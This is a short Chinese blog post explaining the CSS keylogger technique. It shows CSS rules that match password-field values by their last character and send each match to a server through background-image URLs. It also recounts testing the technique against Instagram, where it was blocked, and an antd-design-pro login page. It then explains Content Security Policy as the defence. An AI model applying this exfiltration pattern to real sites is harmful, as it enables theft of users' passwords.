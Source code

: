 ```yaml
---
title: 使用css selector 记录用户输入信息
date: 2019-11-13 14:09:22
tags: [web security, web fronted]
---
```


## CSS3 Selector
  实现使用 CSS 记录用户信息主要使用了 CSS3 中的 selector。

| 序号 | 选择器 | 含义 |
| :-----| :---- | :---- |
| 1 | E[attr^="val"] | 属性 attr 的值以 "val" 开头的元素 |
| 2 | E[att$="val"] | 属性 attr 的值以 "val" 结尾的元素 |
| 3 | E[att*="val"] | 属性 attr 的值以 "val" 字符串的元素 |

## 键位匹配

浏览器自身默认不会将用户输入的值同步到 value 中, 但像一些框架会将用户输入值同步到 value 中。[Demo Link](https://codepen.io/epson-lee/pen/vYYzaNb?editors=0010)

![demo.gif](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/css-keylogger.gif)

将值同步到 value 之后，我们可以使用 css 来做匹配，对应的键位发送到不同的链接。

```css
/* 命中 0 时 请求对应的接口 */
input[type="password"][value$="0"] {
  background-image: url("http://localhost:3000/0"); 
}
/* 命中 1 时 请求对应的接口 */
input[type="password"][value$="1"] {
  background-image: url("http://localhost:3000/1"); 
}
```

## 防御措施

在知道可以使用 css 来记录按键之后我兴冲冲的找到对应的 github demo，按照文档所说打开 [https://instagram.com](https://instagram.com)，安装 Chrome Extension、输入密码但却然而却发现并没有记录到信息，出现了如下的错误信息：

![Error Info](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/css-keylogger-error.png)

在 antd-design-pro 示例登录页倒是可以。

![antd-design-pro 示例登录页](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/1.gif)

这是因为 [https://instagram.com](https://instagram.com) 使用了 CSP (Content Security Policy)。 说白了就是为了页面安全而制定的一系列防护措施，通过CSP所约束的规则制定可信的内容来源（脚本、图片、iframe、fton、style 等可能的远程资源）。

## 引用

[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging)
[Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击](https://www.zhihu.com/question/21979782)